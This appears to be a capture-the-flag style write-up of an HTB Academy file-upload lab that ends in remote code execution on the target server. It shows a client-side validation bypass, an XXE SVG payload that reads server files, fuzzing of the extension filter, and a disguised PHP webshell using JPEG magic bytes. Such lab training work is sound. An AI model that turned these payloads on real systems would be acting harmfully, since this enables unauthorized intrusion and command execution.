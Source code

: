 # Skills Assessment

You are contracted to perform a penetration test for a company's e-commerce web application. The web application is in its early stages, so you will only be testing any file upload forms you can find.

Try to utilize what you learned in this module to understand how the upload form works and how to bypass various validations in place (if any) to gain remote code execution on the back-end server.

***

### Extra Exercise

Try to note down the main security issues found with the web application and the necessary security measures to mitigate these issues and prevent further exploitation.

![](gitbook/cybersecurity/images/Pasted%20image%2020250206180714.png)

Let's take a look at the site:

![](gitbook/cybersecurity/images/Pasted%20image%2020250206180859.png)

We got some sections that are interesting, the one I'm interested in the most is the contact us one, let's check it out:

![](gitbook/cybersecurity/images/Pasted%20image%2020250206181239.png)

And there we are, we have an upload feature, let's use burp and check the request:

![](gitbook/cybersecurity/images/Pasted%20image%2020250206182157.png)

We can `Do Intercept -> Response to this request`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250206182227.png)

We need to erase the `CheckFile()` and change the `accept=`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250206182356.png)

Now we are able to upload any kind of file, without the need of it being an image file, let's test the next thing:

### SVG XML Upload

***

We can now test if its possible to enumerate resources in the back-end server using `.svg` files, let's upload a file with the following contents:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname"> ]>
<svg>&xxe;</svg>
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250206183458.png)

If we decode the contents of it:

![](gitbook/cybersecurity/images/Pasted%20image%2020250206183516.png)

It works, we are able to upload a malicious svg file, let's read the contents of `/upload.php`:

```php
<?php
require_once('./common-functions.php');

// uploaded files directory
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
    echo "Extension not allowed";
    die();
}

// whitelist test
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!preg_match('/image\/[a-z]{2,3}g/', $type)) {
        echo "Only images are allowed";
        die();
    }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    displayHTMLImage($target_file);
} else {
    echo "File failed to upload";
}

```

Now we are able to see the whitelist and the blacklist of the upload endpoint, we can analyze the code and figure out the way to upload our webshell:

```ad-important
- **Blacklist Check**: Blocks `.php`, `.phps`, `.phtml`.
    
- **Whitelist Regex**: Requires the filename to end with `.[2-3 letters]g` (e.g., `.jpg`, `.svg`).
- **MIME/Content-Type Check**: Must be `image/[a-z]{2,3}g` (e.g., `image/svg+xml`).
- Uploads directory
- Format of the file, it goes by date of upload.
```

Let's send an intruder attack in the following way:

![](gitbook/cybersecurity/images/Pasted%20image%2020250206184336.png)

We were able to identify a valid extension: `.phar.jpeg`. Let's proceed.

With this on mind, we can do the following:

```ad-hint
1. Create a php webshell with the right mime-type to bypass the filters.
2. Create a file called `shell.phar.jpeg`.
3. Change the mime type of the file using hexeditor.
```

Let's do it, these are the contents of `shell.phar.jpeg`:

```
AAAA
<?php echo system($_GET["cmd"]);?>
```

Now, we need to change the `AAAA` contents using hexeditor:

![](gitbook/cybersecurity/images/Pasted%20image%2020250206185029.png)

Let's replace them for the JPEG bytes: `FF D8 FF DB`

![](gitbook/cybersecurity/images/Pasted%20image%2020250206185110.png)

Nice, now let's try uploading the file:

![](gitbook/cybersecurity/images/Pasted%20image%2020250206185201.png)

It worked, let's check if the webshell works, in my case, the url would go like this:

```
http://94.237.54.42:58431/contact/user_feedback_submissions/250206_shell.phar.jpeg?cmd=id
```

If we check:

![](gitbook/cybersecurity/images/Pasted%20image%2020250206185927.png)

We got it, let's send it to burp to be more comfortable, let's list the contents:

```
bin
boot
dev
etc
flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
var
```

We got our flag, let's read it:

![](gitbook/cybersecurity/images/Pasted%20image%2020250206190133.png)

Flag is:

```
HTB{m4573r1ng_upl04d_3xpl0174710n}
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250206190210.png)

